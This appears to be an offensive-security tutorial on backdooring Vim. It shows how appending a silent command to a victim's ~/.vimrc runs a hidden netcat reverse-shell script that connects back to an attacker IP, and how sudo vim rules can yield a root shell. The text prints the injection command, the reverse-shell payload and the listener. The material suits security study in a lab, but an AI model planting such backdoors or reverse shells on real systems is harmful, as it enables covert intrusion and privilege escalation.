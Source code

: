 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a well-known and widely used command-line text editor that comes pre-installed on most Unix and Linux operating systems. In many Linux setups, user-specific VIM configuration settings are stored in the user's home directory within the `.vimrc` file. This file, which is automatically loaded when Vim starts, accepts VIM-specific scripting commands that are usually used to enable users to tailor their editing environment to their preferences.

This interesting setup presents an opportunity for attackers. By manipulating the `.vimrc` file, one can execute unintended actions during a user's VIM session without the user's knowledge or permission, especially if VIM operates within an unrestricted environment.

To get a feel for that, let's experiment. To execute a command within the VIM environment, you need to precede any shell command with a colon and an exclamation mark. Execute the following command within VIM to get the user ID (or username):
```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

You see, once you hit enter, the user ID is printed on the screen. This is because VIM has access to the shell environment's variables.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Great, let's get back to the `.vimrc` file. We can inject any commands into the `.vimrc` file, and once the current user starts Vim, these commands are executed in the background. One particularly interesting command is the source command, used to execute commands from a script file in the current shell session.

We can illustrate this with an example scenario: suppose an attacker, using a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker wants to establish a backdoor on the victim machine, such as creating a netcat reverse shell connection to the attacker's machine.

First, on the victim machine, the attacker creates or modifies the `.vimrc` file by appending the following line:

```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```

Let's analyze this command: Firstly, the `:silent` suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the `source` command, preceded by an exclamation mark to indicate that this is a shell command, loads and executes the script ncReverseSh.sh, followed by the `&` to execute the command in the background."

Now, the attacker need to populate the script `ncReverseSh.sh` with the payload:

```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This is a simple script that invokes the nc command with the `-e` switch, specifying the program (`/bin/sh`) to execute upon connection establishment, followed by the attacker's IP and listening port. Again, the & ensures the command runs in the background

Okay, let's give it a shot. Start a netcat listener on the attacker machine on port 7777:

```sh
nc -lnvp 7777
```

On the victim machine, when launching Vim to read any file, it will trigger the execution of the backdoor script. You can see on the attacker machine that a netcat connection has been established with the victim, and the victim did not receive any suspicious messages.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

You should know that the reverse shell obtained doesn't necessarily grant access beyond that of the current user. However, if the victim runs VIM with sudo, the attacker might get a root shell. However, this is only half the story; it depends on the Linux distribution. For example, in systems like Ubuntu and Red Hat, VIM uses the current user's `.vimrc` configuration file even within a sudo context. Therefore, if the user invokes VIM via sudo, our sourced script will execute as root. On the other hand, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, without using the current user's settings.

One more thing: another idea is to check the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:

```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

In this example, the configuration allows the root user to execute `/usr/bin/vim` on `/opt/whatever.conf` without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning...


### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
